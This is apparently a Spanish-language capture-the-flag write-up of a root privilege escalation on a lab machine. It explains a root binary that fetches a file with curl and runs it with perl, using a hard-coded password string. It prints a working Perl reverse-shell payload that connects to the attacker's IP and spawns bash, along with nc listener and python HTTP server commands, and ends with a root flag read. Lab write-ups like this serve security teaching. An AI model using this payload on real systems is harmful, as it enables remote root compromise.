 En primer lugar, comprueba si se han enviado tres parámetros de entrada "dos porque el primer parámetro es el nombre del programa mismo".
En segundo lugar, comprueba si un usuario root lo llama.
En tercer lugar, comprueba si el tercer parámetro es igual al texto **lDnxUysaQn**.
En cuarto lugar, abre un archivo con **curl** que se especifica mediante el segundo parámetro y lee y se ejecuta con perl.
Y se puede ver que la máquina enviaría la solicitud de obtención a la URL especificada. 


```bash
smorton@investigation:~$ sudo /usr/bin/binary 10.10.14.25:443 lDnxUysaQn
Running... 
```
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.197] 38380
GET / HTTP/1.1
Host: 10.10.14.25:443
Accept: */*
```
Voy a alojar un archivo en *perl* con un **reverse-shell**

```perl
 use Socket;
 $i="10.10.14.25";
 $p=443;
 socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
 if(connect(S,sockaddr_in($p,inet_aton($i)))){
   open(STDIN,">&S");open(STDOUT,">&S");
   open(STDERR,">&S");exec("/bin/bash -i");
 };
```

Monto un servor **http** con **python3** y vuelvo a ejecutar apuntando a mi archivo **perl**

```bash
smorton@investigation:~$ sudo /usr/bin/binary 10.10.14.25/rever.pl lDnxUysaQn
```
```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.197 - - [02/Mar/2023 22:59:44] "GET /rever.pl HTTP/1.1" 200 -
```
Y conseguimos tener la **reverse-shell** como **root**
Visualizar la *flag*.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.197] 46488
root@investigation:/home/smorton# whoami
whoami
root
root@investigation:/home/smorton# cat /root/root.txt
cat /root/root.txt
12c**************************ab3
root@investigation:/home/smorton# 
```

# Espro que te pueda servir de ayuda. *GRACIAS por venir*
